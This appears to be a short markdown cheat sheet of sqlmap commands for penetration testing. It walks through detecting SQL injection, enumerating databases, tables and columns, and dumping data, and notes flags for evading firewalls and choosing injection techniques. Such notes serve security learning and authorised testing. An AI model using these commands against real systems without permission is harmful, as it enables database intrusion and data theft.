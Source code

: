 ````bash
sqlmap -hh # Extended Help
````

1. <u>Check site for Vulnerability</u>

````bash
sqlmap -u <URL> --level=5 --risk=3
sqlmap -r <request-file> --string="<text-if-query-true>" --level=5 --risk=3
sqlmap -u <URL>?id=5
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

2. <u>Retrieve DB Names</u>

````bash
sqlmap -r <request-file> --dbs
sqlmap -u <URL> --dbs
sqlmap -u <URL> --current-dbs # Return DB that is currently used
````

3. <u>All Tables from DB</u>

````bash
sqlmap -u <URL> -D <db-name> --tables
````

4. <u>Columns from Table</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

5. <u>View Data from Column</u>

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**<u>Flags</u>**:  
-u URL : Target URL  
--level=5 : Through Scan - Default : 1  
--risk=3 : Risk Level - Default : 1  
-r filename : Provide the request file  
--random-agent : Request blocked by firewall  
--dump : Exploit Vulnerability Save result to file

--string "string" : String present on result page on successful query (Required from Blind Injection)  
--dbms=dbms-name : Pass Database Type (MySQL, PostgreSQL, etc.)

--technique : BEUSTQ  
B: Boolean-based blind  
E: Error-based  
U: Union query-based  
S: Stacked queries  
T: Time-based blind  
Q: Inline queries
